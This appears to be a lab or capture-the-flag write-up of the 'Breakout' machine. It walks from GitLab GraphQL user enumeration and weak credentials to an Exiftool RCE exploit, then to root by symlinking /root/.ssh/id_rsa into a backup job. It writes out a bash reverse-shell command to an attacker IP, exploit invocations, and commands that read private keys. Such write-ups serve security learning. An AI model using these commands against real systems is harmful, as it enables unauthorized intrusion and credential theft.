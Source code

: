 # Breakout

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.182
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 15:28 +08
Warning: 192.168.183.182 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.183.182
Host is up (0.17s latency).
Not shown: 65519 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

### Web Enum --> GraphQL

Port 80 reveals a Gitlab instance:

<figure><img src="../../../.gitbook/assets/image (32) (2).png" alt=""><figcaption></figcaption></figure>

I tried registering a user, but it wasn't allowed since the Gitlab administrator needed to approve first. I ran a `feroxbuster` scan to enumerate directories.&#x20;

```
$ feroxbuster -u http://192.168.183.182
200      GET      264l     1543w        0c http://192.168.183.182/search
200      GET      353l     2789w        0c http://192.168.183.182/help
301      GET        1l        5w       98c http://192.168.183.182/profile => http://192.168.183.182/-/profile
200      GET      363l     1838w        0c http://192.168.183.182/public
302      GET        1l        5w      105c http://192.168.183.182/snippets => http://192.168.183.182/explore/snippets
302      GET        1l        5w       96c http://192.168.183.182/projects => http://192.168.183.182/explore
401      GET        0l        0w        0c http://192.168.183.182/v2
302      GET        1l        5w      103c http://192.168.183.182/groups => http://192.168.183.182/explore/groups
200      GET      441l     2057w        0c http://192.168.183.182/webmaster
200      GET      441l     2057w        0c http://192.168.183.182/root
200      GET      363l     1838w        0c http://192.168.183.182/explore
```

There wasn't much from this though. I searched for Gitlab enumeration, hoping to get someone'e cheatsheet on how to enumerate Gitlab instances, but found this instead:

{% embed url="https://www.rapid7.com/blog/post/2022/03/03/cve-2021-4191-gitlab-graphql-api-user-enumeration-fixed/" %}

I tried their PoC of accessing Gitlab using `/-/graphql-explorer`, and it worked:

<figure><img src="../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

### GraphQL User Enum  --> User Login

The CVE above mentions that this allows us to enumerate users using this query:

```
{users{nodes{id name username}}}
```

<figure><img src="../../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

We have 2 new users, `coaran` and `michelle`. Then, we can login with `michelle:michelle`:

<figure><img src="../../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

### Gitlab RCE

Using this user, we can enumerate the version of Gitlab running:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

This is vulnerable to the Gitlab Exiftool RCE exploit.&#x20;

{% embed url="https://github.com/CsEnox/Gitlab-Exiftool-RCE" %}

```
$ python3 exploit.py -u michelle -p michelle -c "bash -c 'bash -i >& /dev/tcp/192.168.45.208/4444 0>&1'" -t http://192.168.183.182
[1] Authenticating
Successfully Authenticated
[2] Creating Payload 
[3] Creating Snippet and Uploading
```

<figure><img src="../../../.gitbook/assets/image (97) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### LinPEAS --> SSH Key

I ran `linpeas.sh` and it found some potential SSH keys.&#x20;

```
[+] Searching ssl/ssh files
ChallengeResponseAuthentication no                                                           
UsePAM yes
Possible private SSH keys were found!
/var/opt/gitlab/backups/mykey
/var/opt/gitlab/gitlab-rails/etc/secrets.yml
 --> /etc/hosts.allow file found, read the rules:
/etc/hosts.allow
```

We can read the file and verify that it is an SSH key:

```
git@breakout:/tmp$ cat /var/opt/gitlab/backups/mykey 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA4eDGWPfq/wKo4whXeFRr8Dq+wgoCClqpJmxRajPmCaSrULo/uPad
<TRUNCATED>
```

We know that there are 2 users on the machine, and I tested with both. Using this key, we can `ssh` in as `coaron`:

<figure><img src="../../../.gitbook/assets/image (15) (1) (8).png" alt=""><figcaption></figcaption></figure>

### Pspy --> Symlink Exploit

`linpeas.sh` didn't reveal much, so I ran a `pspy64` instead. I found some interesting processes involving zip files:

{% code overflow="wrap" %}
```
2023/07/12 07:46:01 CMD: UID=0    PID=320345 | bash /opt/backups/backup.sh 
2023/07/12 07:46:01 CMD: UID=0    PID=320346 | /usr/bin/zip -r /opt/backups/log_backup.zip /srv/gitlab/logs/alertmanager /srv/gitlab/logs/gitaly /srv/gitlab/logs/gitlab-exporter /srv/gitlab/logs/gitlab-rails /srv/gitlab/logs/gitlab-shell /srv/gitlab/logs/gitlab-workhorse /srv/gitlab/logs/grafana /srv/gitlab/logs/logrotate /srv/gitlab/logs/nginx /srv/gitlab/logs/postgres-exporter /srv/gitlab/logs/postgresql /srv/gitlab/logs/prometheus /srv/gitlab/logs/puma /srv/gitlab/logs/reconfigure /srv/gitlab/logs/redis /srv/gitlab/logs/redis-exporter /srv/gitlab/logs/sidekiq /srv/gitlab/logs/sshd

coaran@breakout:/tmp$ cat /opt/backups/backup.sh 
/usr/bin/zip -r /opt/backups/log_backup.zip /srv/gitlab/logs/*
```
{% endcode %}

Since this is being run by root, we can create a symlink here that points towards the `root` user's private SSH key. However, we cannot view the files or write to it as `coaron`, but it seems the `git` user can on the Docker container its in.

```
git@breakout:/srv$ lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
loop0    7:0    0 55.5M  1 loop 
loop1    7:1    0 55.5M  1 loop 
loop2    7:2    0 61.9M  1 loop 
loop3    7:3    0 61.9M  1 loop 
loop4    7:4    0 43.6M  1 loop 
loop5    7:5    0 67.2M  1 loop 
loop6    7:6    0 67.9M  1 loop 
sda      8:0    0   10G  0 disk 
├─sda1   8:1    0    1M  0 part 
└─sda2   8:2    0   10G  0 part /var/log/gitlab
sr0     11:0    1 1024M  0 rom

git@breakout:/var/log/gitlab$ ls -la
total 80
drwxr-xr-x 20 root              root       4096 Mar  3  2022 .
drwxr-xr-x  1 root              root       4096 Feb 23  2021 ..
drwx------  2 gitlab-prometheus root       4096 Feb 17 17:18 alertmanager
drwx------  2 git               root       4096 Jul 12 07:37 gitaly
drwx------  2 git               root       4096 Jul 12 07:28 gitlab-exporter
drwx------  2 git               root       4096 Jul 12 07:38 gitlab-rails
drwx------  2 git               root       4096 Mar  3  2022 gitlab-shell
drwx------  2 git               root       4096 Jul 12 07:28 gitlab-workhorse
drwx------  2 gitlab-prometheus root       4096 Feb 17 17:18 grafana
drwx------  2 root              root       4096 Jan 30 10:45 logrotate
drwxr-x---  2 root              gitlab-www 4096 Feb 17 00:28 nginx
drwx------  2 gitlab-psql       root       4096 Feb 17 17:18 postgres-exporter
drwx------  2 gitlab-psql       root       4096 Feb 17 17:18 postgresql
drwx------  2 gitlab-prometheus root       4096 Jul 12 07:28 prometheus
drwx------  2 git               root       4096 Feb 17 17:18 puma
drwxr-xr-x  2 root              root       4096 Feb 16 17:18 reconfigure
drwx------  2 gitlab-redis      root       4096 Jul 12 07:27 redis
drwx------  2 gitlab-redis      root       4096 Feb 17 17:18 redis-exporter
drwx------  2 git               root       4096 Jul 12 07:27 sidekiq
drwxr-xr-x  2 root              root       4096 Jan 30 10:45 sshd
```

We can then create the symlink here:

```
git@breakout:/var/log/gitlab/gitaly$ ln -s /root/.ssh/id_rsa test1
```

Afterwards, we just need to wait for a bit before the script executes and makes a new zip file in `/opt/backups`. Once it does, copy the folder elsewhere and unzip it to reveal the SSH private key of `root`:

```
coaran@breakout:/dev/shm/srv/gitlab/logs/gitaly$ cat test1
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAzAu+X5sUIUBGFen/rkbr6M09cLPZvlsrphqkjcZQ48zivybhHMIJ
<TRUNCATED>
```

We can then use this key to `ssh` in as `root`:

<figure><img src="../../../.gitbook/assets/image (26) (2).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
